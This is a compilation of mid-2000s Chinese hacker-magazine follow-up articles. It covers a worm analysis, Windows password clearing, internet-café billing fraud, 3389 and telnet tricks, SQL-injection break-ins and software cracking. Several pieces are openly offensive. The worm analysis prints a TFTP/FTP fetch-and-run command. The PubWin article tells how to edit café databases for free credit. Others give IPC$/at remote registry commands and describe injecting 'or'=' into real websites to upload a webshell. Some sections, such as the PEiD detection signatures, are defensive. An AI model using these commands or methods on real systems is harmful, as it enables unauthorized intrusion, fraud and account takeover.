FTP！？很有可能是病毒特地开放的。尝试了匿名，无法进入，看来需要密码。由于没有密码只好先看看病毒的其他地方，病毒的源文件里可能有密码。首先用 PEID 查看一下病毒的源文件，显示无法找到入口，如图9。


不会吧？是不是什么地方出了问题。我想到使用的 PEID 不是最新的，于是将病毒源文件复制到试验区域，又下载了 PEID 的最新版本检查，这才看到了病毒的源文件信息：FSG 2.0 -> bart/xt [Overlay]，如图10。


我的脱壳技术不是很好，于是到网上搜索了一下 FSG2.0 的信息，是一个新壳，暂时还没有脱壳的方法公布。已经很晚了，将打包好的病毒放到一个安全的文件夹，关闭计算机，明天再来继续分析……

### 二、分析

早早地就奔到机房，打开计算机，在启动的时候把昨天的思路重新整理了一下。在网上搜索相应的资料，突然一个网站的名字进入我的视线——“看雪学院”，国内一流的加密解密及软件破解网站。突然来了灵感，在里面应该可以找到答案，于是登录该网站，在论坛里搜了一下，果然，论坛公布了 FSG2.0 的脱壳工具，真是踏破铁鞋无觅处，得来全不费功夫。

马上下载下来，运行脱壳文件，将病毒文件的壳给脱掉。用 PEID 一查，VC++ 6.0，如图11。

看来这次是把壳脱掉了，先看看这个软件调用了什么资源。用 Ultra32 打开来看一下，发现在病毒的文件开始部分调用的资源，如图12。

在这里可以看到病毒传播的时候使用的参数和时间的判断。继续往下看，看到了利用的漏洞（MS04011）参数和传播时采用的工具 TFTP 参数，还使用了 XP_cmdshell，如图13。

在图14中还可以看到软件利用了 SQL 的漏洞来传播，IPC 共享，成功进入后将文件拷贝到 admin$\system32 下。继续 ing……往下看，看到了病毒的扫描、自我复制和传播的相关资源，如图15。


太乱，还是反汇编来看比较清晰。打开 C32ASM，载入病毒文件。过了许多秒后，有了结果，一点一点地往下看，一个熟悉的字符串进入了视线：webdav。难道病毒也采用了 webdav 溢出？如图16。先放到一边，继续看后面又出现了一段 webdav 的溢出字符，如图17。


看来病毒的确采用了 webdav 溢出。之后在地址 004016D6 和 0040172F 之间看到了病毒的传播进程、TFTP 参数和与 FTP 绑定的命令：

```txt
tskdl1.exe, tftp -i %s get %s\x0D\x0A, echo open %s %d > o&echo user 1 1 >> o &echo get bling.exe >> o &echo quit >> o &ftp -n -s:o &bling.exe\x00\x0A
```

如图17。继续往下看，在地址 00403D59 发现了这样的数据：sa、root、admin；在不远处 00403E97 有这样的参数提示：`FTP列出系统的A盘到I盘，并支持PASV传输模式`。在该模块末尾，可能的病毒作者终于浮出了水面，在登录结束的时候 FTP 的关闭消息中有这样的提示：`221 Goodbye happy r00ting.\x0A`，如图21。


图18


图20

在地址 00407F87，C32ASM 提示了病毒自带的 DDOS 模块，病毒可以进行 syn、ack 攻击，并且拥有攻击统计，如图19。


图19


图21

只有病毒作者知道病毒的 FTP 绑定命令，r00ting 很有可能就是病毒的作者。

### 四、思考

从 00408514 到 00408BF，笔者看到了该病毒的自我升级功能，在这里笔者看到了大量的升级信息，如图20。继续 ing，看到病毒的文件管理模块，在这里病毒可以执行驱动器状态查看（空间大小）、文件搜索。再继续 ing，终于发现了笔者真正想知道的：病毒打开的 FTP 服务器密码和可能的病毒作者。从 00409A98 开始提示 FTP 登录 `220 StnyFtpd Ownsj0\x0A`，之后进行登录验证……

由于病毒编写采用的是 VC++ 6.0，唯一的保护就是采用 FSG 压缩，所以笔者可以在短期内分析出该程序的基本原理。该病毒采用 MS04011、webdav、SQL 传播，估计是从 IP 地址判断传播方式：内网采用 MS04011，外网采用 webdav 和 SQL。成功进入系统后采用 TFTP 将病毒文件 tskdll 复制到被攻击的系统中，之后连接远程的 IRC 服务器，等待命令，同时打开 FTP 端口监听……

可以看出，该病毒的整个传播过程是非常智能的，不需要第三方的干涉，同时该病毒还集成了多种功能，病毒的稳定性很高，资源占用极低。……在回宿舍的路上，笔者不断地思考着一个问题：就这样结束了？病毒就这样简单？病毒过了 10 月 12 日就停止传播……

> 【下载411页】

# 斜下箭


# 对付处于升级血浪至 ASP 木马权限的一点乱问

当时一看到这个文章的名字，很是兴奋，手上一堆 ASP 木马的 shell 看来又可以帮我多搞几台肉鸡了。但是看了一会儿之后，我的心却兴奋不起来了。因为作者只是解决了冰狐浪子木马的运行程序没有回显的问题，并没有提升权限，也不可能提升权限。我只是说说我自己的想法……

“C:\Documents and Settings\All Users\开始菜单\程序\启动”下写东西，然后 DOS 追使并重启可以提升权限，感觉普通权限的用户可以借用户启动栏重启系统重新启动并运行任何程序。实验过的人都知道，现在普通的主机上，也就是 NTFS 权限下这是不可能的……我理解的提升权限是从系统本身的漏洞，或者不安全配置、服务漏洞等获得更高权限……

```bash
net user > c:\1.txt
netstat -an > c:\2.txt
net start > c:\3.txt
```

这里假设 C 盘可写可浏览，可以改成你具体情况下的目录，执行完浏览这几个文件就可以了。这样即便是不支持参数的 application.shell，也可以执行需要参数的程序……有其他意见的可以到 X 的论坛讨论，希望大家的技术和黑 X 一样越来越好！

# 杀鸡焉用牛刀

在今年 4 月份，我曾经在虚拟机里试验过“深山红叶袖珍系统工具箱”，并成功地更改了 WinXP 系统管理员的密码……假如上天再给我一次机会，我一定会好好珍惜。好了，我们言归正传，文中提到将“深山红叶袖珍系统工具箱”刻盘，然后进入 CMOS 从光盘启动进行 WINPE 系统……

为了便于截图，我们在虚拟机里进行试验。首先在 Windows 环境下设置 Administrator 的密码，然后安装软件。安装过程中会提示输入“启动菜单”的等待时间和进入 MaxDOS 的密码，如图1。安装完毕后重启，出现系统选择画面，再按提示输入密码……


# 补丁铺

输入密码 max 后进入到纯 DOS 下，这时我们输入 password.exe（广告时间：password.exe——DOS 下清除 2K/XP/2K3 的用户密码，支持 NTFS/FAT32 分区。MAX 强烈推荐！这才是今天的主角哟！），出现软件提示，如图5。


在这里我们选第 1 项，出现本机分区列表，如图6。因为 XP 系统装在了 C 分区，我们键入数字 0，出现 sam 文件路径，如图7。并按任意键继续，出现系统账户列表，如图8。


选择我们要破解的账户。在这里因为我们要破解 Administrator 的密码，所以我们键入 0，出现清空 Administrator 密码的确认框，如图9。


输入 Y 确认，系统提示操作成功。如果你不熟悉这个软件的使用，在出现图5的时候，你可以选择第 2 项，系统会自动搜索安装有 Windows 操作系统的分区。搜索完毕后直接显示操作系统所在分区，如图10。


其余操作与手工操作一样。重新启动机器后 Administrator 的密码已经清空，成功进入系统。呵呵，试验成功！可是有些朋友又会问了，电脑密码已经忘了，没有密码进不了 Windows，还怎么安装 MaxDOS_5.0E？当然你可以在忘记密码之前就安装它以防万一，同时里面还有许多 DOS 下的必备软件，如 GHOST，可以在备份系统时用到，可谓是装机之必备。

如果你忘记了密码并且事前没有安装 MaxDOS 的话，也不要紧！因为，今天的主角是 password.exe。如果你的电脑有软驱，你可以在别人的电脑上做一张启动盘同时安装 MaxDOS_5.0E，再在进入 MaxDOS 后将 password.exe 拷到启动盘，然后用这张自己制作的启动盘启动你的电脑，再在软盘里运行 password.exe 破解你电脑的密码。如果你的电脑没有软驱也不要紧，现在的电脑大多都支持 USB 接口，你可以在别人的电脑上从网上下载 USB 启动盘制作软件，制作一个 USB 启动盘，然后把 password.exe 拷上去，用它启动电脑照样可以破解你的 Windows 密码。怎样，是不是很强呀？

好了，说了这么多，MaxDOS 相比“深山红叶袖珍系统工具箱”的刻盘使用，是不是简单得多呀？并且这款软件可谓小巧玲珑，只有 27K，真可谓是：小软件也能解决大问题，杀鸡焉用牛刀？如果你忘了自己电脑上 Windows 操作系统的密码，而你又没有刻录机刻录“深山红叶袖珍系统工具箱”，这个方法是不是又帮了你的大忙？

最后，我借用原作者文章末尾说的一句话：修改 Windows 管理员密码只是 MaxDOS 中的一个功能而已，它还有更多实用的功能，如清除 CMOS 密码、从光驱引导、Ghost 备份等等，就留给各位朋友慢慢研究吧，有好的心得体会别忘了拿出来共享喔！本工具软件在 Vmware 虚拟机 + NTFS/FAT32 + Win2k3 中文企业版环境下测试成功。

（本文涉及到的 MaxDOS_5.0E、PASSWORD.EXE，光盘有收录）

# 补丁铺


看了《黑客档案》第五期的《PubWin4 充钱大法》一文后，测试了一下，发现这个“网吧充值一条龙”程序有着很大的不足之处。其实这种充值软件网上版本众多，我这里就用了精锐联盟修改过的“网吧PUBWIN充值一条龙”，比那个多了个会员卡操作功能。但其主要功能和原理都是一样的，即：先和 Pubwin4 服务器建立连接，再对其数据库中的 Member.mdb 数据库文件进行操作。思路是正确的，但程序的作者犯了一个细节上的错误，那就是：仅仅对 Member.mdb 进行修改是不够的。

我们现在做一个对比测试，看看正常充值和“网吧PUBWIN充值一条龙”有什么不同。

- 正常充值：现有金额为￥2，我们在“增加金额”中填 10，然后点确定，这样剩余余额为￥12，如图1。我们可以看到会员记录中多了一条增加储值金的记录，如图2。
- “网吧PUBWIN充值一条龙”：运行网吧PUBWIN充值一条龙，设置好数据库路径，在“要添加金额”中填 20，然后点充值。该软件的读取数据库功能还是很不错的，我们仔细观察会发现会员记录中并没有增加储值金的记录。点查询按钮，查询结果为：现在您卡上的余额为：32元，如图3。

很明显，两者都能充值，但后者比前者少了一条增加储值金的记录！

下面我们来分析一下 Pubwin4 的数据库结构，看看究竟是什么原因。Pubwin4 的数据库文件夹（database）下有 2 个核心数据库文件：Member.mdb 和 Business.mdb。其中涉及金额的表和字段详见图4和图5。


| 表名 | 字段说明 |
|---|---|
| BusTab_CashIncome | ResultMoney 和 FactMoney 字段分别记录了你每次充值的金额 |
| BusTab_RsvIncome | SubMoney 字段记录了你每次消费的金额 |
| BusTab_User | AdvPaymentCash、AdvPaymentRsv 等为刷卡时的金额（卡上余额）；RemainRsvMoney 和 ComputerConsume（消费金额）；ChangeOfRsv（消费后的余额） |

| 表名 | 字段说明 |
|---|---|
| MemTab_History | Event 字段记录事件动作：1为开户，2为增加储值金，3为储值卡结账（负数代表找零），5为刷卡上机；EventMoney 字段记录了每个动作的金额 |
| MemTab_Member | 一个很重要的表，记录了会员的个人资料，其中 RemainMoney 字段记录的是余额 |
| MemTab_RsvConsume | AddMoney 字段记录的是每次的消费金额 |
| MemTab_RsvSale | AddMoney 字段记录的总计约为充值金额 |


通过上面的 2 个表，我们可以看出这两个数据库文件中都有很多地方需要改动，而网吧PUBWIN充值一条龙仅仅对 Member.mdb 的 MemTab_Member 表中的 RemainMoney（余额）字段进行操作是不够的。

再来看一下“网吧PUBWIN充值一条龙”的会员卡操作功能。在会员卡操作中填好卡号和个人资料后，点“加卡”，如图6。虽然的确加了一张新卡，但却没有开户记录。这也是仅仅在 Member.mdb 的 MemTab_Member 表中添加记录的结果。细心的网管就会通过这些没有记录的记录，发现你的卡有问题，然后……

害怕了吧，怎么办呢？在此，我推荐一种方法。

- 1. 到吧台给 A 卡正常充值 1 元，趁充值后不要用该卡上机（后文未完）。

# 补丁铺

上网吧也不容易，交点电费总是应该的，这也算是一种投资吧，呵呵。这样做是为了产生 Event 为 2 的增加储值金额记录。

- 2. 用 B 卡上机，因为用 A 卡上机，会由于此卡在数据库中的动态因素，此时修改的话难度会加大，而且 Member.mdb 的 MemTab_Member 表中的 RemainMoney 为 0。
- 3. 进入 Pubwin4 服务器，手动改写数据库中有关 A 卡充值金额的记录。可以参照上文中的两个表修改，将所有有关 A 卡充值的金额改为你想要的。此过程也可以编程实现，有兴趣的读者可以试一下。入侵 Pubwin 服务器的具体步骤我就不在这里多说了，大家可以参考以前的《黑客 X 档案》，很详细的。

有兴趣的朋友可以和我一样在本机安装 Pubwin4 服务端进行测试。在此还要声明一下，本文仅做技术探讨，天下没有免费的午餐，希望各位黑友谨慎对待，否则，警察叔叔可是要打屁屁的！

（文章中涉及到的程序“特征联盟修改过的‘两吧 PUBWIN 充值一条龙’”已经收录于光盘中）

### 如《幽网死痕——上网之前下网之后》续

fish

看了六期的《X》发现其中的一篇文章正如作者所说的，很适合我们这些整天混于网吧等公共场所的虫虫，其中涉及到很多安全小常识及一些技巧，但作者遗漏了一些常用的软件，如邮件收发类、网络下载类等，特此写上这篇补充给那些需要的虫虫。既然作者是按照上网之前、下网之后写的，俺就也模仿一下啦！

### 一、上网之前

摄像头（简称 CAM），现在很多网吧都已经配置了，对于一些语音视频聊天族来说无疑是个好消息，可是对于我就绝对是个太大的坏消息，因为我一向都不怎么喜欢这个东西，还有那该死的 QQ，怎么设置都无法隐藏 CAM，整天收到视频聊天的请求，导致注意力严重分散，写稿能力也严重下降，那怎么办呢？终于让我找到了方法。在桌面“我的电脑”上单击右键，选择“属性”，在随后弹出的对话框中点击“硬件”标签，再点击其中的“设备管理器”按钮，紧接着就会出现“设备管理器”窗口，在其中找到“图像处理设备”并将其点开，看到 CAM 了吧，那就在上方单击右键，选择“停用”即可，如图 1。


图 1


图 2

接下来点击“帐户”菜单，选择其中的“新建”，因为 Foxmail 必须留下一个帐号，否则我们是没有办法删除正在使用的帐号的，如图 3。


图 3

这样它就不会整天打扰你了，更不会泄露你的尊容了，够绝吧。其它的也想不出什么要补充的，那就再让我们来看看下网之后吧！

### 二、下网之后

邮件收发想必是上网首先会做的事，那么 Foxmail 就实在是不得不会用哦。那当你看完了邮件，准备下机离开时，你不会把邮件留在机器上吧，况且 Foxmail 的加密方式实在是不敢让人恭维，稍有入侵知识的人就可以轻而易举地破解出来。那怎么把它删除呢？跟我来吧！步骤比较繁琐。

首先分别点击收件箱、发件箱、已发送邮件箱及垃圾邮件箱，选中各项中的全部邮件，单击右键选择“删除”，然后到废件箱再次选中全部邮件后将其删除，如图 2。

根据向导，我们在用户名处随便填入一些字符，再点击“选择”按钮选择邮箱路径，这里选择的路径不能和我们正在使用账户的存放路径相同，否则会出错，后面的根据提示也可以随意填写，如图 4。

新建账户完成后就可以来删除我们使用的账户了，在左侧选中账户后点击“帐户”菜单中的“删除”即可，如图 5。

随后我们找到 Foxmail 的安装目录，在其 mail 子目录下找到我们的邮箱帐号，选中后连目录一起整体删除，如图 6。

最后在 Foxmail 主目录下选择查看方式为“详细信息”，然后点击“修改时间”，让当前目录下的文件按照修改时间进行排序，这样就可以找到我们刚刚修改过的文件，将其删除，这是存放 Foxmail 中帐户的文件及其备份，如图 7。

到这里有人要说直接把上面删除不就行了，何必这么烦呢？当然，如果有还原卡的机器你可以这么做，否则建议你还是不要给网管添麻烦了，他们也不容易哦。缺德事还是少做为妙啊！说不定哪天给发现了，一定是被狠 K 一顿。

接着就应该是下载软件出场了。这里我选择可以下载 HTTP、MMS、RTSP 的 FlashGet 和 FTP 的 FlashFXP。先说 FlashGet 吧。

其实也不用多说什么，几乎与 Foxmail 的方法相同，因此上面才比较详细地进行了说明。选中正在下载、已下载中的软件、游戏、驱动程序及 MP3 的全部文件，点击右键选择删除，然后到已删除中将文件全部选中后选择右键菜单中的“全部删除”，如图 8。

在跳出的对话框中将“删除未下载完成的文件”和“删除已下载的文件”两项都选中，点击“确定”按钮，如图 9。

FlashGet 做得比较人性化，为了防止误删除，它是将所有的文件都移到了回收站，但是这同样也是其安全缺陷，留下了可乘之机。我们到桌面上的回收站图标上单击右键，选择“清空回收站”即可。


FlashFXP 就更简单了，找到安装目录，将其中的 Bookmarks.dat（书签）、Quick.dat（快速连接）、Sites.dat（FlashFXP 站点）及 Stats.dat 删除就可以了，如图 10。


现在数码产品已经走进百姓家庭了，这部分的安全也不可忽视。下面就以删除软件 ACDSee 为例。

在 ACDSee 中的地址栏中存放着曾经访问过图片的完整路径，只要随意选择一个或许就是你用的。其实这个只需要到注册表中删除就不存在了。打开注册表编辑器，找到“HKEY_CURRENT_USER\Software\ACD Systems\ACDSee\60”，在右边的列表中是不是有一项“HistPaths”，双击打开对话框，全选其中的字符后删除，这样就把历史路径给删除了，不信你可以回去看看，如图 11。


剩下的就只要把图片索引数据库删除就可以了。找到“C:\Documents and Settings\当前用户\Application Data\ACD…”。

进入英文目录后找到 `Systems\Catalogs\Default` 文件夹，这个文件夹是隐藏的，需要显示所有文件才能看到。选中全部文件删除之，这个不要删文件夹，否则下次 ACDSee 可能不能运行，如图 12。


至此，所有步骤全部完成。总结加上原文，网吧中常用软件的各个方面也应该都说到了，相信虫虫们不会再那么担惊受怕了。

---

### 对《菜鸟学放木马，工具结合很重要》的补充

我的几个同事看了《菜鸟学放木马，工具结合很重要》后做了实验，结果令他们很失望……今天我给大家介绍另一款工具，它和啊 D 配合，堪称“刀剑合璧”，会让你很快找到肉鸡。

工具名字 advanced lan scanner，千万不要认为这只是个局域网搜索工具。使用前先设置：Options -> Configuration -> Scan targets，只选择 OS type 和 Shares 两项，如图 1。


为什么只选择这两项，因为要判断是否有 Win2000 的机器，还要判断是否开有默认共享，这两点满足很容易入侵成功。点击 OK 回到主界面开始扫描。


我们可以找到有“+”号的 IP 地址并展开，只要有共享就可进一步操作。文中还提到按 OS 排序、优先处理 Win2000 机器等技巧。


### 对“NTFS磁盘系统配置全攻略”的一点补充

《NTFS 磁盘系统配置全攻略》一文谈到 NTFS 加密与恢复代理。实际上在 Windows 2000/XP 不同环境下，默认恢复代理并不相同；在域环境中通常是域管理员。若未预先设置恢复代理，用户删除后可能导致数据丢失。

可先确定一个用户作为恢复代理，使用命令行 `cipher /r c:\hack` 生成证书和私钥文件（如 hack.cer 与 hack.pfx）。随后通过“安装 PFX/证书导入向导”导入，并在组策略相关位置添加数据恢复代理。

设置有效恢复代理后，可用该代理账户恢复访问 EFS 加密文件；但在设置前已经加密的数据，恢复代理仍可能无法直接打开。


### 对“逆向工程菜鸟教学篇”的一些补充

——雪走[OCT]

在 2005 年第 9 期的“TIT 女子破解小组之逆向工程菜鸟教学篇”一文中，文章提及的啊啦 QQ 大盗 0720 版程序的入口点是 004AB21B ...（正文为逆向分析与入口点修正说明）。


对于如何手动查找程序的入口点，原文作者已经讲得很详细了，下面只是我个人对原程序的一些简单分析。其实，我进程序后从 004AE010 到 004AE03F 这一段...真正的分析点是从 004AB0B0 开始。

- 1. F8 走过 004AB0B0 60 PUSHAD 后，查看寄存器中 ESP 值（如图 4），在命令行下硬件断点，F9 运行后断在 004AB21B ... JMP alaq072.00473D2C。
- 2. 通过查看代码特点，若判断为 UPX 壳，可用 CTRL+F 搜索 `POPAD`，快速定位到 004AB21A 61 POPAD，再看下一行 004AB21B ... JMP alaq072.00473D2C。


### RobinPE 检测补丁

忆雪见

本文主要针对第 9 期“巧妙利用 RobinPE 将木马藏匿到 EXE 文件中”一文所做补充。其实早在 03 年 RobinPE 刚发布时我就已经用过了，只是当时受条件所限没有深入研究...

### 一、关于运行的小补丁

RobinPE 可以利用宿主 EXE 文件的空隙（由文件对齐产生的大段 00）将寄生 EXE 写入并随宿主一起运行。运行时会释放寄生文件到硬盘，因此寄生 EXE 文件通常可被免杀等处理...

### 二、Fearless 的检测

Fearless 曾通过 Bound File Detector（简称 FBFD）检测宿主文件中的寄生数据。报告称在宿主文件偏移 59800h 处发现寄生数据 110h 字节（272 字节）...


图 1 说明：FBFD 就检测不到被 RobinPE 处理过的样本。


图 2

提取特征码是一件纯手工活，我都已经为大家做好了，如下：

```text
[* RobinPE v.new -> Robin]
signature = 60 6A 00 6A 20 6A 02 6A 00 6A 03 68 00 00 00
ep_only = true
```

大家只要把这段字符写入 PEiD 目录下的 userdb.txt 文件中即可，这时再利用扩展扫描，你的 PEiD 就可以检测出经 RobinPE 处理过的程序了。

还有文中提到的“灰鸽子万能文件捆绑器”，我也一并做好了，特征码如下：

```text
[灰鸽子万能文件捆绑器_VIP2005 -> 葛军]
signature = 55 8B EC 81 C4 ?? FE FF FF 53 56 57 33 C0 89 85 ?? FE FF FF
ep_only = true
```

使用方法同上，不再啰嗦了。其实使用 RobinPE 最大的好处在于寄生后宿主文件大小是不变的……现在好了，这项工作可以交给 PEiD 来做了，它的目录扫描功能可以极大减少工作量……


图 3


图 4

……如图 4 所示，还是刚才那个 Win2000 欢迎程序，但是 FBFD 已经发现不了异常了，实际情况是那个寄生的“激活专家”仍然可以运行……

> 一些行业外的汉化者会将 FBFD 译作“无忧捆绑文件检测器”。

### 三、PEiD 的检测

有感于原文作者的一句“至于检测我目前仍没有发现有什么好的办法”，这里给大家介绍一种相对而言比较好的检测方法，使用工具 PEiD。


图 5

PEiD 是一个基于 Signature（特征码）的探壳程序，它的自定义特征码可以在一定程度上帮助我们检测这类捆绑文件。捆绑程序和壳一样，都有自己的特征码（也可称为 DNA）。利用 PEiD 的扩展扫描功能可发现被 RobinPE 处理过的宿主文件，如图 5 所示……


图 6

PEiD 的辅助检测木马的功能就为大家介绍这些了。工具不是万能的，防范捆绑木马最好的方法还是具备安全意识，不随便运行陌生程序。随光盘附上的 PEiD 可检测包括“藏躲阁 EXE 文件捆绑机”“PcShare 文件捆绑器”等二十多种捆绑程序。

### X 07 期《深入3389》一文的疑问及补充

在今年 X 档案第 7 期中有一篇深入 3389 的文章，作者对 3389 有很好的分析，也给出了让我们能在 3389 与本地电脑中复制文件的补丁，在此非常感谢。但是我感觉在某些地方存在疑问或者描述得不是很明白，在此跟大家讨论一下。

首先作者提到的开启 3389 的 4 个条件，我就觉得不是很正确。大家知道，3389 在 Win2000、XP 与 2003 中是不一样的。XP 中甚至只要你在“我的电脑”属性里的远程选项里“允许用户远程连接到此计算机”打上勾就可以使用管理员组的用户来连接……

麻烦的是 2000，并且 2000 还默认只在 server 版本里才有。你可以通过 `type c:\boot.ini` 来查看当前系统版本……作者所说的第一个条件其实是不需要的，完全可以不必开“terminal service”服务……

我个人认为开启某项服务，只要服务管理器里有启动这个服务，然后服务启动所需要文件、可执行文件以及驱动都被正确安装，服务配置所需要的注册表项都已经正确配置，这个服务就是可以正确启动的……

不正确，等下配置就知道了。好了，根据我所指的思路，我们来看看 7 期中作者的做法如何。作者第一条做的就是关于 3389 服务的配置，作者说不能用 Sc 操作服务，其实感觉 Sc 操作服务还是比注册表文件导入要好，因为它即时生效，不需要重启……


我们重新启动系统，如图 3。我更改了端口在 1417。所以说 3389 无论如何还是个服务，不会多神秘……

```vb
createobject("wscript.shell")
wsrun "reged.exe /s config.reg",0
wsrun "root.bat",0
```

保存为 root.vbe 文件，config.reg 就是我们的服务配置文件了，内容参看作者的吧！Rar 的自解压文件大家都会做，可以参照以前的黑客 X 档案，在运行里写 `wscript root.vbe` 就可以了……

root.vbe 就可以了。运行后什么反应都没有，然后再用 sc 或者其他的方法直接改注册表开启 3389 服务重启就可以了。其他的配置作者说得不错，这里我要深入一点的是甚至 termservice 都不用开启的……


```bat
sc config sysmonlog start= auto
sc config sysmonlog binpath= c:\winnt\system32\termsrv.exe
sc start sysmonlog
```

大家看看这样操作之后的结果吧！termservice（终端服务）是禁止的，但是终端服务开了！我上自己 3389 抓个图吧，顺便看看作者说到的那个注册表项的值是禁用的，并且连接上了自己的 3389，如图 4。


我想应该说明白了吧，现在大家应该真正了解 3389 了，把它当作一个特殊的服务就行。现在你可以自己做出自己的 3389 了，把你的成果展示到黑客 X 档案吧！有什么问题欢迎到黑 X 论坛讨论，我的 ID 是 Jnc。


### 也谈被遗忘的利刃

### 学会关心她

看了今年 5 期剑心写的《被遗忘的利刃》后心里感触颇大，就为 `or'='` 这把利刃续上点内容吧，下面就介绍我是如何用这把利刃侵掠一个网站的。

说干就干，打开本地区的一个网站，先整体浏览一遍。我们这里是北方小城市，还比较落后，我想管理员不会太厉害吧！这个网站的服务还真不少，有一套新闻发布+音乐系统+校友录系统+动网 7.0 SP2 的论坛，都是 ASP 的。


先打开新闻系统，猜出系统的后台登录页面，如图 2。输入 `or'='1` 提示错误。又来到校友系统，同样猜出后台管理路径，又输入 `or'='` 后回车，这次竟然给进去了，在后台转了一圈发现没有上传文件和备份功能。最后在高级管理发现管理员的密码竟然是明文存放的，如图 3。


星号是我改了的。于是试着拿这个密码去进新闻系统，还是提示密码错误，接着去试着进音乐系统、校友录系统和论坛，都提示密码错误。看来管理员确实还有点安全意识。最后又来到了校友系统，看看还有什么能利用的。最后觉得管理员密码“******love”有问题，再看看上面的网址 `/love/admin/mimi.asp`，突然闪过一些灵感。新闻发布系统的密码会不会是“******new”或者“******news”呢？抱着试试的心理在图 2 的地方输入“******news”，确实。差点晕倒，竟然进去了，如图 4。

管理员面板比较强大，如图 5。找了个上传页面上传了海阳 ASP，一切顺利，拿下了 webshell，如图 6。后来我用类似方法也成功入侵了另外 2 个网站，`or'='` 这把利刃的确很锋利，如何运用它就要看大家的想象了。


# 对“软件破解与反破解”的一点补充

### 补丁篇

刘奇

在《X》第9期的“软件破解与反破解”一文中，原文所提及的几个方法均对于反破解有一定的作用。个人觉得最有效、最有创意的方法当数用图片来显示注册成功与否。感谢作者王欣的创意，给反破解提供了一个新的方法。另外，除了该方法，其它几种反破解方法均可以反破解（没有打错字哦）。下面结合自己的体会给出具体实现方法：

### 1. 作者提到释放“字串”来反破解

缺陷分析：该方法几乎不会对一个稍有经验的菜鸟级 cracker 造成任何影响。其针对对象为不懂汇编代码、仅会用 WinHex 搜索注册码的 cracker。若分析作者提供的反破解测试程序，一路 F8 过去，毫无障碍，所以该方法几乎形同虚设。

### 2. 利用字符串寻找关键跳转

缺陷分析：该方法非常理想，但可通过从程序取得注册码开始，跟踪并细化调用过程（F8/F7）来识别注册验证流程。采用这种方法，程序的加壳、花指令、混淆等措施并非不可绕过。


所示的 Button4Click 即可看到点击注册按钮时执行的代码，如图2。


我们截取一段研究一下，以下代码为节省篇幅均去掉了机器码：

```text
(* Reference to: TControl.GetText(TControl):TCaption() *)
00454AC4 call 00432D2C
00454AC9 mov edx,[ebp-$10]
00454ACC lea eax,[ebp-$0C]
...
```

```text
WideString.WideString.String()
00454ACF call 004047F0
00454AD4 mov eax,[ebp-$0C]
00454AD7 push eax
...
Reference to: TObject.System.@LStrCmp()
...
```

如何？不得不佩服 DEDE 作者对 Delphi 的研究之深。感叹之下不禁想说一句：“DEDE 之下，Delphi 了无秘密”（修改侯捷的话：“源码面前，了无秘密”）。

```text
00454B00 call 004043A4
00454B05 jnz 00454B16
00454B07 mov dl,$01
...
Reference to: TControl.SetVisible(TControl;Boolean)()
```

设置图片可见，显示注册成功图片。可见有了反汇编代码几乎可以还原成 Delphi 源码：

```text
00454B0F call 00432C4C
00454B14 jmp 00454B23
00454B16 mov dl,$01
...
Reference to: TControl.SetVisible(TControl;Boolean)()
```

分析同上，这里显示的是注册失败的图片：00454B1E call 00432C4C。

### 3. 防止程序被脱壳

缺陷分析：该方法通过检测文件大小来确定文件是否脱壳，通常使用 API 是 GetFileSize()，因此在 GetFileSize 设置断点即可绕过壳后的自校验。这个比较简单，不作具体分析了。

### 4. 防止程序被跟踪调试

缺陷分析：该方法一般会检测自己的父进程是否是 explorer.exe，如果不是则杀死父进程或采取其它报复方法。

CreateToolhelp32Snapshot 取得进程快照，然后查找可疑进程。或若使用 OpenProcess 打开并处理检测是否为 explorer.exe。相应的对策是在上述 API 上设置断点来防范。

### 5. 补充一些

一般而言，当检测到自己被调试时通常都会杀死父进程或者退出程序。对于这样的程序常用的对策是在 TerminateProcess 和 ExitProcess 上设置断点。通常使用 CreateToolhelp32Snapshot 和 OpenProcess 这两个 API 的程序都不是什么好东西……强烈建议 hook 上述 API 以防不测。

由于以上方案都已公开，所以加密效果也大打折扣。更好的方法是利用操作系统弹出一个非法操作，而不是杀死调试器、关闭计算机等。当你跟踪调试一个软件时突然弹出非法操作，就很难第一时间判断问题位置。

最后给初学者的建议：可自己用 MFC 画界面，或做经典命令行风格。并提示两点：

- 原作者提供的“反破解测试.exe”先脱壳；
- 文中偏移地址可用 w32dasm 在脱壳后的文件中定位。

```text
00454B05
00454B05  jnz 00454B16   （关键跳转，跳则显示注册失败）
nop 掉或者修改 jnz 为 jz 即可突破
```


## 对“去除NTLM新招”的疑问和补充

王艺翔

在今年第4期的“去除 NTLM 新招”一文中，作者提到可通过 `tlntadmn config sec = -ntlm` 去除 NTLM 认证，但实测效果不佳，命令行下会提示权限问题。

```text
C:\Documents and Settings\> tlntadmn config sec = -ntlm
错误：您必须有管理员特权
```


作者进一步从注册表入手，使用 RegSnap 比较 NTLM 值修改前后的变化，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0` 下的 NTLM 键值变化。

```text
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0\NTLM
新: DWORD: 2 (0x2)
旧: DWORD: 0 (0)
总计按键: 2
```


实验环境为 Win2000，IP 200.200.200.200，管理员账号 1234，密码 123。NTLM 认证值含义：2 表示需要 NTLM 认证，1 表示优先 NTLM 认证失败后再用户名密码，0 表示不进行 NTLM 认证。

先将本机 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0` 下 NTLM 键值导出到 d:\jsj.reg。

```text
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\TelnetServer\1.0]
"NTLM"=dword:00000000
```


通过 IPC$ 管道连接目标主机后复制并导入注册表：

`net use \\200.200.200.200\ipc$ "123" /user:"1234"`  
`copy d:\jsj.reg \\200.200.200.200\c$`  
`at \\200.200.200.200 18:23 regedit -s c:\jsj.reg`

随后可通过 at 定时停止并重启 telnet 服务完成生效。

# 主题乐园


## Unix 驾驭：Unix黑客技术坊

王欣

在这个严肃的老师面前，座位上嘻嘻哈哈的同学们不约而同地静了下来。安静让2005年的夏天似乎变得凉爽了一些。老师先打破了安静气氛，和同学们讨论“这堂课将讲什么”。同学们回答了攻防课程、扫描系统、分析漏洞、入侵系统、留后门、保持权限等内容。老师引导大家进入“另一个世界”——Unix攻防技术。

老师提出在正式讲课前先提一些经典文章里的内容，提醒大家不要把“技术高超 = hacker”简单等同。并强调 hacker 文化并无绝对领导者，不应把自己定位成耀眼的“领袖”，而应保持务实谦逊。学生们在讨论中也反思了自己过去使用夸张 ID 的心态。

### 引言：上个世纪的黑客

